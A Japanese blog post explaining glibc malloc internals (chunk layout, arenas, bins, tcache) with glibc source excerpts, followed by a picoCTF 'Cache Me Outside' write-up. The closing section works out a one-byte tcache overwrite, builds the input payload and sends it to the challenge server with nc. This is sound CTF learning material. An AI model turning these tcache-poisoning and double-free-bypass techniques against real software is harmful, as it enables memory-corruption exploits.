




どうやら一口にHeapと言っても色々あるようですが、とりあえずglibcのmalloc関数について学んでいくことにします。

<!-- omit in toc -->
## もくじ
- [要点メモ：CTFのためのHeap](#要点メモctfのためのheap)
- [malloc()でHeapを確保する(__libc_malloc)](#mallocでheapを確保する__libc_malloc)
- [free()でHeapを解放する](#freeでheapを解放する)
- [Heapの攻撃手法](#heapの攻撃手法)
- [glibcのソースコードを手に入れる](#glibcのソースコードを手に入れる)
- [チャンク](#チャンク)
  - [Allocated chunk](#allocated-chunk)
  - [Free chunk](#free-chunk)
- [アリーナ](#アリーナ)
- [fastbin](#fastbin)
- [unsortedbin](#unsortedbin)
- [smallbin](#smallbin)
- [largebin](#largebin)
- [tcache](#tcache)
- [Heap Exploit演習](#heap-exploit演習)
  - [picoCTF:  Cache Me Outside](#picoctf--cache-me-outside)
- [まとめ](#まとめ)
- [参考情報](#参考情報)

## 要点メモ：CTFのためのHeap

- Heapの用途は、要求に応じた適切なサイズのメモリ領域を永続的に確保すること
- Heapの割り当て、解法を行う機構は「アロケータ」と呼ばれる
- Heapのメモリプールは「アリーナ」と呼ばれる機構で管理される
  - スレッドが複数存在する場合、スレッドごとに「スレッドアリーナ」が用意される
- Heapの割り当てはブレーク値を増加させて上位に引き上げることで行われる
- Heapは「チャンク」というブロック単位で管理され、x86_64の場合は0x10バイトごとにアラインメントされる
  - チャンクの最小サイズは`MINSIZE`として0x20バイトが定義されている
- 解放済みのチャンクは双方向連結リストとして保持される
  - 小さいチャンクを単方向リストで管理する機構もある
- Heapに関してユーザが調整可能なパラメータは、プロセスに1つ`malloc_par`として管理される

## malloc()でHeapを確保する(__libc_malloc)

※ [詳解セキュリティコンテスト](https://amzn.to/3AEtVa7)のP.572からの内容が非常に充実しているので、詳しくはこちらを参照。

1. __libc_malloc()関数に与えられた要求サイズから適切なチャンクのサイズを決定する(要求サイズ+0x8バイトを0x10でアラインメント)
2. 要求サイズに応じてtcache(0x410バイト以下)→binsの順にチャンク確保を試みる
3. チャンクの確保先によって、`_int_malloc()`か`tcache_get()`が使用される

`_int_malloc()`が選択された場合は、以下の記事に記載されているように要求サイズによって処理が分岐していきます。

参考：[Core Functions - heap-exploitation](https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/core_functions#void-_int_malloc-mstate-av-size_t-bytes)

`_int_malloc()`の動きについては[詳解セキュリティコンテスト](https://amzn.to/3AEtVa7)のP.574に記載のUMLを参照します。

※ 巨大な領域(0x200000バイト以上)を割り当てようとした場合、Heapの確保はmmap()によって行われます。

## free()でHeapを解放する

1. `__libc_free()`関数が呼び出され、解放するチャンクがmmap()で確保されたものかどうかを検証する
2. この結果に応じて、`munmap_chunk()`または`_int_free()`のどちらかが解放に使用される
3. `_int_free()`が使用される場合、対象のサイズやエントリ数をもとにチャンクの繋ぎ先をtcache、fastbin、またはそれ以外にするかを決定する

※ より詳細な挙動は[詳解セキュリティコンテスト](https://amzn.to/3AEtVa7)を参照

## Heapの攻撃手法

参考：[how2heap: A repository for learning various heap exploitation techniques.](https://github.com/shellphish/how2heap)

- アドレスのリーク
  アドレスのリークのためには、Use After Free攻撃や未初期化のバグが利用できるようです。

- Double Free(二重解放)
  Double Freeは通常tcacheがエントリのkeyによって検出するため、UAFなどを利用してkeyを書き換えることでDouble Freeのチェックを回避することができる

- tcacheの改ざん/mp_.tcache_binsの改ざん

  任意のアドレスからメモリ確保が可能になる

- fastbin/smallbin/largebinの汚染

- チャンクヘッダのsizeの改ざん
  チャンクサイズを拡大することで他のチャンクを絞り込むことができる

- topサイズの縮小

## glibcのソースコードを手に入れる

とりあえず以下から`glibc`のソースコードを入手しました。

本家のリポジトリをミラーしてくれているリポジトリらしいです。

参考：[GitHub - bminor/glibc: Unofficial mirror of sourceware glibc repository. Updated daily.](https://github.com/bminor/glibc)

今回glibを読む際は、基本的に`glibc-2.35`を読んでいくことにします。

## チャンク

Heapは、メモリをチャンクという単位で管理します。

チャンクはx86_64では0x10バイト単位でアラインメントされます。(size_t型の2倍)

また、1つのチャンクの最小サイズは0x20バイトがMINISIZEとして定義されています。

このチャンクのチャンクヘッダは以下の構造体で定義されていました。

``` c
/*
  This struct declaration is misleading (but accurate and necessary).
  It declares a "view" into memory allowing access to necessary
  fields at known offsets from a given base. See explanation below.
*/

struct malloc_chunk {

  INTERNAL_SIZE_T      mchunk_prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      mchunk_size;       /* Size in bytes, including overhead. */

  struct malloc_chunk* fd;         /* double links -- used only if free. */
  struct malloc_chunk* bk;

  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
  struct malloc_chunk* bk_nextsize;
};
```

チャンクの構造については以下のリンク先の図がわかりやすかったです。

`Size of chunk`の下位3bitにはAMPが順に割り当てられていますが、それぞれ以下の意味を持っています。

- A：NON_MAIN＿ARENA   main_arenaではない別のアリーナで管理されている場合にセットされている
- M：IS_MMAPPED   ヒープ領域ではなく、mmapで確保された領域上にある場合にセットされる
- P：PREV_INUSE   prev_chunkが利用中にセットされる

参考情報：[malloc_chunk - heap-exploitation](https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/malloc_chunk)

### Allocated chunk

``` bash
    chunk-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Size of previous chunk, if unallocated (P clear)  |
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Size of chunk, in bytes                     |A|M|P|
      mem-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             User data starts here...                          .
            .                                                               .
            .             (malloc_usable_size() bytes)                      .
            .                                                               |
nextchunk-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             (size of chunk, but used for application data)    |
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Size of next chunk, in bytes                |A|0|1|
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

割り当て済みのチャンクの構造を見ると、チャンクサイズ以降にデータが格納されています。

場合によっては、次のチャンクの`Size of previous chunk`の領域もデータに使用するようです。

### Free chunk

``` bash
    chunk-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Size of previous chunk, if unallocated (P clear)  |
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
    `head:' |             Size of chunk, in bytes                     |A|0|P|
      mem-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Forward pointer to next chunk in list             |
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Back pointer to previous chunk in list            |
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Unused space (may be 0 bytes long)                .
            .                                                               .
            .                                                               |
nextchunk-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
    `foot:' |             Size of chunk, in bytes                           |
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Size of next chunk, in bytes                |A|0|0|
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

解放済みチャンクには、`Forward pointer to next chunk in list`と`Back pointer to previous chunk in list`の値が追加されます。

それぞれ、`fd_nextsize`と`bk_nextsize`として定義されています。

## アリーナ

Heapのメモリプールを管理する機構をアリーナと呼びます。

アリーナは以下の`malloc_state`構造体で定義されます。

メインスレッドのアリーナはグローバル変数として定義されており、ヒープセグメントには含まれません。

このメインスレッドのアリーナは`main_arena`という名前で存在します。

アリーナに関するいくつかの項目についての説明を以下に記載します。

- fastbinsY：fastbinをサイズ別に管理する単方向の線形リストの配列
- top：メモリプールの未使用領域の先頭を指す
- last_reminder：既存の解放済みチャンクを分割した際利用されなかった残りのチャンク1つを保持
- bins：unsortedbin、smallbin、laregebinを管理する双方向循環リストの配列
- binmap：チャンクがつながっているbinsのインデックスに対応するフラグが立つマップ
- system_mem：システムから確保したメモリプールの総量

``` c
/*
   have_fastchunks indicates that there are probably some fastbin chunks.
   It is set true on entering a chunk into any fastbin, and cleared early in
   malloc_consolidate.  The value is approximate since it may be set when there
   are no fastbin chunks, or it may be clear even if there are fastbin chunks
   available.  Given it's sole purpose is to reduce number of redundant calls to
   malloc_consolidate, it does not affect correctness.  As a result we can safely
   use relaxed atomic accesses.
 */

struct malloc_state
{
  /* Serialize access.  */
  __libc_lock_define (, mutex);

  /* Flags (formerly in max_fast).  */
  int flags;

  /* Set if the fastbin chunks contain recently inserted free blocks.  */
  /* Note this is a bool but not all targets support atomics on booleans.  */
  int have_fastchunks;

  /* Fastbins */
  mfastbinptr fastbinsY[NFASTBINS];

  /* Base of the topmost chunk -- not otherwise kept in a bin */
  mchunkptr top;

  /* The remainder from the most recent split of a small request */
  mchunkptr last_remainder;

  /* Normal bins packed as described above */
  mchunkptr bins[NBINS * 2 - 2];

  /* Bitmap of bins */
  unsigned int binmap[BINMAPSIZE];

  /* Linked list */
  struct malloc_state *next;

  /* Linked list for free arenas.  Access to this field is serialized
     by free_list_lock in arena.c.  */
  struct malloc_state *next_free;

  /* Number of threads attached to this arena.  0 if the arena is on
     the free list.  Access to this field is serialized by
     free_list_lock in arena.c.  */
  INTERNAL_SIZE_T attached_threads;

  /* Memory allocated from the system in this arena.  */
  INTERNAL_SIZE_T system_mem;
  INTERNAL_SIZE_T max_system_mem;
};
```

アリーナ内のbinsについては、「unsortedbin、smallbin、laregebinを管理する双方向循環リストの配列」と記載しました。

binsとは、解法されている(non-allocated)チャンクのリストです。

binsはチャンクのサイズなどによって以下のいずれかが選択されます。

1. Fast bin
2. Unsorted bin
3. Small bin
4. Large bin

ここで、binsはbins[2n]とbins[2n+1]の2つで1セットとして管理されます。

これはそれぞれリスト構造のfdとbkの役割を果たしています。

smallbinやlargebinのインデックスからチャンクヘッダーのアドレスを計算するためには以下の`bin_at`マクロが使用されます(bin_atのインデックスは1から始まります)。

``` c
typedef struct malloc_chunk* mchunkptr;
mchunkptr bins[]; // Array of pointers to chunks

/* addressing -- note that bin_at(0) does not exist */
#define bin_at(m, i) \
  (mbinptr) (((char *) &((m)->bins[((i) - 1) * 2]))			      \
             - offsetof (struct malloc_chunk, fd))
```

binsでは解法されている(non-allocated)チャンクをfdとbkを利用して双方向循環リストとして管理しています。

## fastbin

小さいサイズのチャンクは確保や解放が頻繁に行われる傾向にあるため、チャンクの繋ぎ替えの手間のかかる双方向リストではなく、単方向リストで管理可能な仕組みが用意されています。

glibc-2.3から導入されたこのような機構をfastbinと呼びます。

fastbinは前述した`malloc_state`の`fastbinsY`で管理されます。

ちなみにここで指定されている`mfastbinptr`は、`malloc_chunk`構造体のポインタとして定義されているようです。

``` c
#ifndef DEFAULT_MXFAST
#define DEFAULT_MXFAST     (64 * SIZE_SZ / 4)
#endif

/* The maximum fastbin request size we support */
#define MAX_FAST_SIZE     (80 * SIZE_SZ / 4)
#define NFASTBINS  (fastbin_index (request2size (MAX_FAST_SIZE)) + 1)

/* Maximum size of memory handled in fastbins.  */
static INTERNAL_SIZE_T global_max_fast;

/*
   Set value of max_fast.
   Use impossibly small value if 0.
   Precondition: there are no existing fastbin chunks in the main arena.
   Since do_check_malloc_state () checks this, we call malloc_consolidate ()
   before changing max_fast.  Note other arenas will leak their fast bin
   entries if max_fast is reduced.
 */

#define set_max_fast(s) \
  global_max_fast = (((size_t) (s) <= MALLOC_ALIGN_MASK - SIZE_SZ)	\
                     ? MIN_CHUNK_SIZE / 2 : ((s + SIZE_SZ) & ~MALLOC_ALIGN_MASK))

typedef struct malloc_chunk *mfastbinptr;

struct malloc_state
{
  /* Fastbins */
  mfastbinptr fastbinsY[NFASTBINS];
};
```

`fastbinsY`は最大で0xb0バイトのチャンクまでを管理することが可能ですが、実際には`global_max_fast`マクロによって定義された0x80がセットされるようです。

`fastbinsY`は10個の要素を持つ配列であり、`fastbinsY[0]`が最小サイズの0x20バイト、以降は0x30、0x40...と、0x10ごとに管理される形になります。

そのため、0x80が既定の最大値であることから、`fastbinsY`の要素は一般に0から6までしか使用されません。

fastbinで管理されるチャンクの場合は、`Size of next chunk, in bytes`の下位バイトにセットされる「P：PREV_INUSE」がセットされたままになります。

つまり、このチャンクは利用されている状態と認識されます。

Pwngdbを使うと、以下のようにfastbinの状態を確認することができます。



## unsortedbin

解放されたチャンクはsmallbinやlargebinに選り分けられますが、その前の一時的な管理のためにunsortedbinが利用されます。(unsorted_chunksは基本的にキューとして動作します)

ここで、ソートされていないチャンクにはNON_MAIN_ARENA のフラグはセットされません。

unsorted_chunksは以下のマクロで定義されており、`bin_at(1) つまり bins[0]とbins[1]`が定義されます。

``` c
/*
   Unsorted chunks

    All remainders from chunk splits, as well as all returned chunks,
    are first placed in the "unsorted" bin. They are then placed
    in regular bins after malloc gives them ONE chance to be used before
    binning. So, basically, the unsorted_chunks list acts as a queue,
    with chunks being placed on it in free (and malloc_consolidate),
    and taken off (to be either used or placed in bins) in malloc.

    The NON_MAIN_ARENA flag is never set for unsorted chunks, so it
    does not have to be taken into account in size comparisons.
 */

/* The otherwise unindexable 1-bin is used to hold unsorted chunks. */
#define unsorted_chunks(M)          (bin_at (M, 1))
```

## smallbin

smallbinでは、「MIN_LARGE_SIZE」未満のサイズのチャンクが管理されます。

既定値では、0x400バイト未満のチャンクがsmallbinで管理されるようです。

``` c
/*
   Indexing

    Bins for sizes < 512 bytes contain chunks of all the same size, spaced
    8 bytes apart. Larger bins are approximately logarithmically spaced:

    64 bins of size       8
    32 bins of size      64
    16 bins of size     512
     8 bins of size    4096
     4 bins of size   32768
     2 bins of size  262144
     1 bin  of size what's left

    There is actually a little bit of slop in the numbers in bin_index
    for the sake of speed. This makes no difference elsewhere.

    The bins top out around 1MB because we expect to service large
    requests via mmap.

    Bin 0 does not exist.  Bin 1 is the unordered list; if that would be
    a valid chunk size the small bins are bumped up one.
 */

#define NBINS             128
#define NSMALLBINS         64
#define SMALLBIN_WIDTH    MALLOC_ALIGNMENT
#define SMALLBIN_CORRECTION (MALLOC_ALIGNMENT > CHUNK_HDR_SZ)
#define MIN_LARGE_SIZE    ((NSMALLBINS - SMALLBIN_CORRECTION) * SMALLBIN_WIDTH)
```

なお、unsortedbinとは異なり、1つのbinには同じサイズのチャンクのみが繋がれます。

チャンクの最小値は0x20であるため、0x20バイトから0x3f0バイトまでの範囲のチャンクがsmallbinとして管理されることになります。(つまり、利用するbinはbin_at(2)からbin_at(63)まで)

以下の`smallbin_index`は、チャンクのサイズから適したsmallbinのインデックスを特定するためのマクロです。

``` c
#define smallbin_index(sz) \
  ((SMALLBIN_WIDTH == 16 ? (((unsigned) (sz)) >> 4) : (((unsigned) (sz)) >> 3))\
   + SMALLBIN_CORRECTION)
```

## largebin

0x400バイト以上のチャンクはすべてlargebinとして割り当てされます。(largebinにチャンクサイズの上限はありません)

largebinの場合、1つのbinには一定の範囲のサイズのチャンクが降順に繋がれることになります。

largebinのチャンクサイズからbinのインデックスを特定するマクロは以下のように定義されています。

``` c
#define largebin_index_32(sz)                                                \
  (((((unsigned long) (sz)) >> 6) <= 38) ?  56 + (((unsigned long) (sz)) >> 6) :\
   ((((unsigned long) (sz)) >> 9) <= 20) ?  91 + (((unsigned long) (sz)) >> 9) :\
   ((((unsigned long) (sz)) >> 12) <= 10) ? 110 + (((unsigned long) (sz)) >> 12) :\
   ((((unsigned long) (sz)) >> 15) <= 4) ? 119 + (((unsigned long) (sz)) >> 15) :\
   ((((unsigned long) (sz)) >> 18) <= 2) ? 124 + (((unsigned long) (sz)) >> 18) :\
   126)

#define largebin_index_32_big(sz)                                            \
  (((((unsigned long) (sz)) >> 6) <= 45) ?  49 + (((unsigned long) (sz)) >> 6) :\
   ((((unsigned long) (sz)) >> 9) <= 20) ?  91 + (((unsigned long) (sz)) >> 9) :\
   ((((unsigned long) (sz)) >> 12) <= 10) ? 110 + (((unsigned long) (sz)) >> 12) :\
   ((((unsigned long) (sz)) >> 15) <= 4) ? 119 + (((unsigned long) (sz)) >> 15) :\
   ((((unsigned long) (sz)) >> 18) <= 2) ? 124 + (((unsigned long) (sz)) >> 18) :\
   126)
```

利用されるbinは、bin_at(64)からbin_at(126)の範囲となります。

チャンクに含まれているfd_nextsizeとbk_nextsizeは、largebinの循環リストの中から目的のチャンクを効率的に探索するために利用されます。

``` c
/* Only used for large blocks: pointer to next larger size.  */
struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
struct malloc_chunk* bk_nextsize;
```

## tcache

tcacheはglib-2.26から追加された機構で、解放されたチャンクをスレッド単位でキャッシュしておくことを目的としています。

そのため、tcacheはアリーナ内では管理されません。

tcacheはスレッドごとに1つ作成され、TLS上に独立して保持されます。

また、チャンクの管理についてもmalloc_chunkではなくtcache_entryという構造体の単方向リストで管理します。

``` c
/* We overlay this structure on the user-data portion of a chunk when
   the chunk is stored in the per-thread cache.  */
typedef struct tcache_entry
{
  struct tcache_entry *next;
  /* This field exists to detect double frees.  */
  uintptr_t key;
} tcache_entry;

/* There is one of these for each thread, which contains the
   per-thread cache (hence "tcache_perthread_struct").  Keeping
   overall size low is mildly important.  Note that COUNTS and ENTRIES
   are redundant (we could have just counted the linked list each
   time), this is for performance reasons.  */
typedef struct tcache_perthread_struct
{
  uint16_t counts[TCACHE_MAX_BINS];
  tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;
```

tcacheの管理できるチャンクサイズの最大値は0x410バイトまでになっています。

また、tcache_entryのkeyには、キャッシュ自身が属するtcache_perthread_structの先頭アドレスが格納されています。

このkeyを利用してDouble Freeを検出します。

## Heap Exploit演習

### picoCTF:  Cache Me Outside

与えられたバイナリを普通に実行しようとするとよくわからないエラーが発生します。

``` bash
$ LD_PRELOAD=./libc.so.6 ./heapedit
Inconsistency detected by ld.so: dl-call-libc-early-init.c: 37: _dl_call_libc_early_init: Assertion `sym != NULL' failed!
```

リンカのバージョンが合ってないみたいなので`pwninit`を使いました。

``` bash
$ pwninit
bin: ./heapedit
libc: ./libc.so.6
ld: ./ld-2.27.so

unstripping libc
https://launchpad.net/ubuntu/+archive/primary/+files//libc6-dbg_2.27-3ubuntu1.2_amd64.deb
warning: failed unstripping libc: failed running eu-unstrip, please install elfutils: No such file or directory (os error 2)
setting ./ld-2.27.so executable
copying ./heapedit to ./heapedit_patched
running patchelf on ./heapedit_patched
writing solve.py stub
```

しかし、pwninitでパッチ当てたバイナリを実行してもセグフォが発生して詰みました。

``` bash
$ ./heapedit_patched 
Segmentation fault
```

どうやら`flag.txt`が存在していないことが原因で実行できないようです。

```
$ ltrace ./heapedit_patched 
setbuf(0x7f033fedd760, 0)                                                    = <void>
fopen("flag.txt", "r")                                                       = 0
fgets( <no return ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

というわけで`flag.txt`を作成したところ、ひとまず動作するようになりました。



実際のところどんな変更が入ってるのかよくわからなかったのでelfdiffを取ってみました。



ここから実際に問題を解いていきます。

バイナリをデコンパイルした結果を見てみると、8回mallocを呼び出した後に何かしらの処理を行い、指定したアドレスの値を書き換えた後に9回目のmallocを行い、`  puts((char *)((long)local_80 + 0x10));`でそのアドレスのデータ部を表示しているようです。

``` c
  for (local_a4 = 0; local_a4 < 7; local_a4 = local_a4 + 1) {
    local_98 = (undefined8 *)malloc(0x80);
    if (local_a0 == (undefined8 *)0x0) {
      local_a0 = local_98;
    }
    *local_98 = 0x73746172676e6f43;
    local_98[1] = 0x662072756f592021;
    local_98[2] = 0x203a73692067616c;
    *(undefined *)(local_98 + 3) = 0;
    strcat((char *)local_98,local_58);
  }

  local_88 = (undefined8 *)malloc(0x80);
  *local_88 = 0x5420217972726f53;
  local_88[1] = 0x276e6f7720736968;
  local_88[2] = 0x7920706c65682074;
  *(undefined4 *)(local_88 + 3) = 0x203a756f;
  *(undefined *)((long)local_88 + 0x1c) = 0;
  strcat((char *)local_88,(char *)&local_78);
  free(local_98);
  free(local_88);
  local_a8 = 0;
  local_a9 = 0;

  puts("You may edit one byte in the program.");
  printf("Address: ");
  __isoc99_scanf(&DAT_00400b48,&local_a8);
  printf("Value: ");
  __isoc99_scanf(&DAT_00400b53,&local_a9);
  *(undefined *)((long)local_a8 + (long)local_a0) = local_a9;
  local_80 = malloc(0x80);
  puts((char *)((long)local_80 + 0x10));
```

ここで、`strcat((char *)local_98,local_58);`の行でHeapに格納されている変数には読み出したflag.txtの情報が含まれていることがわかっています。

そのため、最終的にはこのHeap領域のデータを何とかして読み出すことができれFlagが取れそうです。

そこで、実際のHeapの動きを見ていこうと思います。

問題ファイルに含まれていたMakefileの内容から、PIEは無効化されていることがわかります。

``` bash
gcc -Xlinker -rpath=./ -Wall -m64 -pedantic -no-pie --std=gnu99 -o heapedit heapedit.c
```

ここから、ASLRが無効であり、実行時アドレスは毎回同じになることが期待されます。

次に、以下のスクリプトでGDBを動かして各Heapのアドレスと中身を確認してみました。

``` python
# gdb -x run.py
import gdb

BIN = "heapedit_patched"
gdb.execute('file {}'.format(BIN))
gdb.execute('b *{}'.format("0x4008c3"))
gdb.execute('b *{}'.format("0x40094a"))
gdb.execute('b *{}'.format("0x400966"))
gdb.execute('b *{}'.format("0x400a4f"))
gdb.execute('b *{}'.format("0x400a75"))
gdb.execute('run < input')

h = []
i = gdb.inferiors()[0]
for k in range(9):
    reg = int(gdb.parse_and_eval("$rax"))
    h.append(reg)
    gdb.execute("continue")

print(h)
for a in h:
    print(hex(a), end="  ")
    mem = i.read_memory(a, 0x30)
    print(mem.tobytes())

gdb.execute('quit')
```

上から順に以下のようにセットされ、各HeapにFlagのテキストが埋まっていることがわかりました



また、8回目と9回目のmallocの戻り値のアドレスが同一であることもわかります。

ここで何が行われているのかについて確認してみました。

``` c
local_98 = (undefined8 *)malloc(0x80) //こちらにFlagが格納される
local_88 = (undefined8 *)malloc(0x80) //ダミーの文字列が格納される

// free関数によって、local_88->local_98の順にtcacheに繋がれる
free(local_98);
free(local_88);

// tcacheからHeapを割り当てて中身を表示する(通常はダミー文字列が表示される)
local_80 = malloc(0x80);
puts((char *)((long)local_80 + 0x10))
```

上記より、tcacheに繋がれているlocal_98の方のチャンクを参照できればFlagが取れそうです。

ここで、前述した通りtcacheからHeapを割り当てる場合には`tcache_get`が使用されます。

つまり、malloc()で取得されるチャンクは、`tcache->entries[tc_idx]`の先頭となるわけです。

``` c
/* Caller must ensure that we know tc_idx is valid and there's
   available chunks to remove.  */
static __always_inline void *
tcache_get (size_t tc_idx)
{
  tcache_entry *e = tcache->entries[tc_idx];
  if (__glibc_unlikely (!aligned_OK (e)))
    malloc_printerr ("malloc(): unaligned tcache chunk detected");
  tcache->entries[tc_idx] = REVEAL_PTR (e->next);
  --(tcache->counts[tc_idx]);
  e->key = 0;
  return (void *) e;
}
```

上記から、Flagを取得するために書き換える必要があるアドレスは、`tcache->entries[tc_idx]`のアドレスであり、書き込む必要がある値は`tcache->entries[tc_idx]->next`であることがわかります。

というわけで、以下のステップでFlagを取得していきます。

1. `tcache->entries[tc_idx]`のアドレスを取得する
2. `tcache->entries[tc_idx]->next`のアドレスを特定する
3. `tcache->entries[tc_idx]`のアドレスを`tcache->entries[tc_idx]->next`に書き換える

まずは`tcache->entries[tc_idx]`のアドレスですが、PIEが無効化されているので、これは最後のmalloc()の戻り値のアドレスから変化しないことが想定されます。

そのため、gdb-pedaを使って最終的にmallocがtcacheから取得するチャンクのアドレスである0x603890を探索します。

すると、0x602088が(たぶん)tcache->entriesのアドレスであり、0x603800がFlagの格納されたチャンクであるとわかります。

``` bash
$ searchmem 0x603890
Searching for '0x603890' in: None ranges
Found 3 results, display max 3 items:
 [heap] : 0x602088 --> 0x603890 --> 0x603800 --> 0x0 
[stack] : 0x7fffffffda30 --> 0x603890 --> 0x603800 --> 0x0 
[stack] : 0x7fffffffde10 --> 0x603890 --> 0x603800 --> 0x0
```

実際、0x603800にFlagが格納されていることが確認できます。

``` bash
$ x/s 0x603800+0x8
0x603808:       "! Your flag is: picoCTF{testflag}\n"
```

ここから、書き換えたいアドレスは0x602088であり、このアドレスの値を0x603800に変えることで最終的にFlagを取得できそうです。

アドレスの書き換えは以下から行います。

``` c
  puts("You may edit one byte in the program.");
  printf("Address: ");
  __isoc99_scanf(&DAT_00400b48,&local_a8);
  printf("Value: ");
  __isoc99_scanf(&DAT_00400b53,&local_a9);
  *(undefined *)((long)local_a8 + (long)local_a0) = local_a9;
```

`local_a0`には0x6034a0が入っていますので、`0x602088-0x6034a0 = -5144`を入れることで0x602088の改ざんが可能になります。

というわけで、1つ目の入力に-5144、2つ目の入力に`\x00\x38\x60\x00`を与えてあげることで、tcacheの改ざんを行ってFlagを取得できます。

``` bash
$ python -c 'import sys; sys.stdout.buffer.write(b"-5144\n" + b"\x00\x38\x60\x00")' > input

$ ./heapedit_patched < input 
You may edit one byte in the program.
Address: Value: lag is: picoCTF{testflag}
```

最後に、リモートサーバーに対してこの入力を送り込むことでFlagを取得できました。

``` bash
$ nc mercury.picoctf.net 17612 < input 
You may edit one byte in the program.
Address: Value: lag is: picoCTF{ XXXXXXXXXXXXXXXXXXXX }
```

